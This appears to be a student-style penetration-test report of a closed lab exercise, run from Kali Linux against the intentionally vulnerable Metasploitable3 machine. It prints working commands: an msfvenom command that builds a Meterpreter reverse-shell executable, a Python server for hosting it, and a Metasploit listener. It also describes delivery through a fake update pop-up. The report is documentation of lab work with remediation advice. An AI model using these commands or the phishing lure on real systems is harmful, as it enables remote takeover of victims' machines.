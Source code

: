 # Reverse-TCP-Payload-Penetration-Test-
I.	Executive Summary
This penetration test was conducted to demonstrate the practical exploitation of a vulnerable system using a reverse TCP payload. The test utilized MSFvenom for payload generation, a Python HTTP server for hosting and delivery, and Metasploit for exploitation and session management. The target system was Metasploitable3, an intentionally vulnerable virtual machine, while the attacker system was Kali Linux. This controlled lab environment ensured ethical testing without affecting real-world systems.
The scope of the test involved creating a reverse TCP payload, simulating a phishing technique to deliver the payload, and successfully establishing a reverse shell connection to the target. The test uncovered critical vulnerabilities in Metasploitable3, including an outdated SMB service and a lack of endpoint security, which allowed for full compromise of the system.
The successful execution of this penetration test highlights the importance of regular system updates, robust endpoint protection, and user training to mitigate risks. The findings underscore the need for organizations to address vulnerabilities proactively and implement security measures to prevent similar attacks in real-world scenarios.
II.	Introduction
Goals and Objectives
The primary objective of this penetration test was to evaluate and demonstrate the effectiveness of a reverse TCP payload in exploiting a vulnerable system. The goals included:
•	Generating a custom payload using MSFvenom.
•	Hosting and delivering the payload using a Python HTTP server and simulated phishing techniques.
•	Establishing a Meterpreter session for post-exploitation.
Scope
The test was limited to the following:
•	Kali Linux as the attacker's machine.
•	Metasploitable3, an intentionally vulnerable system, as the target.
•	No external network was involved, ensuring a controlled environment.
Assumptions and Exclusions
•	Assume Metasploitable3 was deliberately left vulnerable for testing.
•	No tests were conducted on real-world systems.
•	Testing focused solely on reverse TCP payloads, excluding other vectors.

III.	Detailed Analyses
Step 1: Environment Configuration
•	Kali Linux (Attacker): IP Address: 192.168.56.102.
•	Metasploitable3 (Target): IP Address: 192.168.56.101.
•	Connectivity was verified using the ping command.
Step 2: Payload Creation with MSFvenom
•	Command executed: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4444 -f exe -o payload.exe  
•	Generated a reverse TCP payload named payload.exe.
Step 3: Hosting Payload on Python HTTP Server
•	Command executed: python3 -m http.server 8000 
•	Hosted the payload for delivery via the attacker's machine.
Step 4: Configuring Metasploit Listener
•	Commands executed within Metasploit: use exploit/multi/handler  									set payload windows/meterpreter/reverse_tcp  						set LHOST 192.168.56.102  									set LPORT 4444  										exploit  
•	Successfully set up the listener.
Step 5: Payload Delivery and Reverse Shell Establishment
•	Delivered the payload by redirecting traffic using a fake software update pop-up link.
•	Once executed on the target machine, Meterpreter established a reverse shell.
IV.	Identified Vulnerabilities
Vulnerability 1: Outdated SMB service on Metasploitable3.
•	CVE Reference: CVE-2017-0144.
•	CVSS Score: 9.3 (Critical).
Vulnerability 2: Default credentials and lack of endpoint security.


V.	Conclusions & Risk Rating
Vulnerabilities Summary
•	Critical: Exploitable SMB vulnerability allowing remote code execution.
•	High: Lack of user awareness leading to successful phishing payload execution.
Overall Risk Rating
The overall risk for the system is High, given the critical vulnerabilities and ease of exploitation.
VI.	Remediation Steps
1.	Update and Patch Software
•	Apply security updates to the SMB service and other outdated software.
2.	Implement Endpoint Protection
•	Deploy antivirus and anti-malware solutions to detect payloads like payload.exe.
3.	Enhance User Awareness
•	Conduct training on recognizing phishing attempts and verifying links before execution.
4.	Use Least Privilege Principle
•	Disable unnecessary services and enforce strong credentials.
5.	Network Segmentation
•	Isolate vulnerable systems from critical network resources.


References
Tools Used
1.	MSFvenom and Metasploit
o	Rapid7. (n.d.). Metasploit Framework Documentation. Retrieved from https://www.metasploit.com/
o	Offensive Security. (n.d.). MSFvenom Cheat Sheet. Retrieved from https://www.offensive-security.com/metasploit-unleashed/msfvenom/
2.	Python HTTP Server
o	Python Software Foundation. (n.d.). HTTP.server module documentation. Retrieved from https://docs.python.org/3/library/http.server.html
Common Vulnerabilities and Exposures (CVEs)
1.	National Institute of Standards and Technology (NIST). (2017). CVE-2017-0144: Microsoft SMBv1 Vulnerability.
o	Retrieved from https://nvd.nist.gov/vuln/detail/CVE-2017-0144
Additional Resources
1.	Offensive Security. (n.d.). Kali Linux Documentation. Retrieved from https://www.kali.org/docs/
2.	Rapid7. (n.d.). Metasploitable3 Documentation. Retrieved from https://github.com/rapid7/metasploitable3
